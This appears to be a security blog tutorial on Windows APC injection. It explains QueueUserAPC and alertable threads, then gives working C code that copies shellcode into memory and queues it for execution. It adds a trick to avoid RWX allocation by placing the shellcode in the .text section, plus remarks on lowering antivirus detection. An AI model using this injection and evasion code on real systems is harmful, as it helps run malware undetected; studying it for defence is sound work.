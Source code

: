 ```yaml
---
description: >-
  Injecting shellcode into legitimate process by abusing the Windows APC
  technique
---
```


# APC Injection

## Introduction

APC (Asynchronous Procedure Call) is a function that executes asynchronously (as the name suggests) in the context of a particular thread. These are generally used for I/O stuff, etc. \
Each thread has its own APC queue. An application queues an APC to a thread by calling the [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function. The calling thread specifies the address of an APC function in the call to **QueueUserAPC**.  When an APC is queued, a request is made for the thread to call the APC function.

It's like OS saying to the thread "Hey, look at this whenever you have the time." Now the importante thing to note is that it is only possible to queue an APC for a thread if and only if that particular thread is in alertable state. According to MSDN

> A thread enters an alertable state when it calls the [**SleepEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex), [**SignalObjectAndWait**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait), [**MsgWaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/desktop/api/Winuser/nf-winuser-msgwaitformultipleobjectsex), [**WaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex), or [**WaitForSingleObjectEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex).

&#x20;If we queue the APC for any non-alertable thread, we would have to wait until it goes into an alertable state and then it will run our code.&#x20;

Now let's take a look at the function [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**.**

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

* <mark style="color:purple;">**dwData**</mark> - A single value that is passed as parameter to the function to be called.
* <mark style="color:purple;">**hThread**</mark> - Handle to the thread in alertable state. It must have the **THREAD\_SET\_CONTEXT** access right.
* <mark style="color:purple;">**pfnAPC**</mark> - A pointer to the APC Function to be called.

If the function succeeds, the return value will be non-zero, else it will be 0 (failure).

### Simple explaination

Imagine you work in a company and you are currently doing an important task which will take you an hour to do. But then your boss comes in and hands you some files to verify later. Now you have become a thread and your boss has queued an APC call, you won't stop your work immediately to do the verification but you will have to do it after you finish your task. This is the case with Regular APC calls.

Special User-Mode APC calls are a bit special. Now imagine the same scenario where you are doing the task but this time, the CEO of your company has approached you with a "really important" task to do it immediately. You would then have to pause your work and finish the CEO's work first and only then resume what you were doing. The problem here is that since you have only 1 notebook and you do both of the work in it, there is a possibility of "[race condition](https://en.wikipedia.org/wiki/Race_condition)" and messing things up. That's why special care needs to be taken when running the special APC.



## Execution Flow

1. Create a thread that runs any function which allows it to switch to alertable state.
2. Inject the shellcode into Process Memory.
3. Call QueueUserAPC with the shellcode base address as the function.

## APC Injection

Alright, so first we will create another function which would contain any of the function that helps the thread to switch to alertable state. Those are  [`SleepEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)`,`[`SignalObjectAndWait`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)`,`[`WaitForSingleObjectEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)`,`[`WaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)`,` [`MsgWaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex). I have used `SleepEx` for simplicity. Note that the 2nd Parameter should be set to `TRUE` for the Thread to go in alertable state.

```c
VOID Aleeert() {
	info("Thread ID : %d", GetCurrentThreadId());
	SleepEx(INFINITE, TRUE);
}
```

Now we just have to allocate memory for our shellcode and give it to the `QueueUserAPC` to run it.

```c
int main() {
	HANDLE hThread = NULL;
	info("Main Thread : %d", GetCurrentThreadId());
	hThread = CreateThread(NULL, 0, Aleeert, 0, 0, NULL);
	
	PVOID pFunc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(pFunc, shellcode, sizeof(shellcode));
	
	//Sleep(1);

	// Not necessary to typecast pFunc but me do me
	QueueUserAPC((PAPCFUNC)pFunc, hThread, NULL);
	// if we don't wait for the thread to finish execution
	// program exits before the thread is able to run our shellcode
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);

	return 0;
}
```

Here I did notice that if we do not have the Sleep function, I don't see the print statement in the function although the thread does execute our shellcode&#x20;

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

But when I do have the Sleep function, I see the print statement in the `Aleeert` function. After a failed chatgpt interaction and a little document searching, I found this on MSDN,

> If an application queues an APC before the thread begins running, the thread begins by calling the APC function. After the thread calls an APC function, it calls the APC functions for all APCs in its APC queue.

So it means that our code was queued even before the thread got the time to run the function, this I can prove by removing the `SleepEx` function which means that our **thread** should not be in the **alertable** state yet it runs our shellcode because of us queueing it before it can even run.

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

One thing to note is that we still are allocating memory with `PAGE_EXECUTE_READWRITE` which is a **very big red flag** that we are doing something suspicious. We can eliminate that by allocating our shellcode to the `.text` section as I have shown here\[link] previously.

```c
#pragma section(".text")

__declspec(allocate(".text")) char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
....
```

And we see that we are able to execute our shellcode neatly without allocating any RWX memory.

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

Alright since we technically haven't played with alertable thread yet, I'll create a thread that goes into alertable state and only then do we queue the APC for it to run.

<figure><img src="../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

We know that the thread was in alertable state since it did ran our shellcode, you can try removing the `SleepEx` function and run the program again, the shellcode won't run since the thread wont be in alertable state.

## VirusTotal

Out of curiousity, I wanted to check this against VirusTotal and I was kinda surprised at the rate of detection ( 423094eabcc7ffa09ba35d3c6df2d3a4cecc9505fcd9bb4e629cb675c2e5e122 ). I have used the binary where I allocate shellcode in `.text` section.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

This is not bad because almost all of them AV flagged this because of the msf payload, so if we were to use any other custom payload, the rate will go considerably low.

Alright that's it for now, This became lengthier than what I was expecting so I have broken it into 2 parts, ciao. I'll be back with more interesting techniques to talk about, probably system calls, but there are soo many more things to explore. Hopefully, I was good enough to help you understand how this works.

## References

* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)









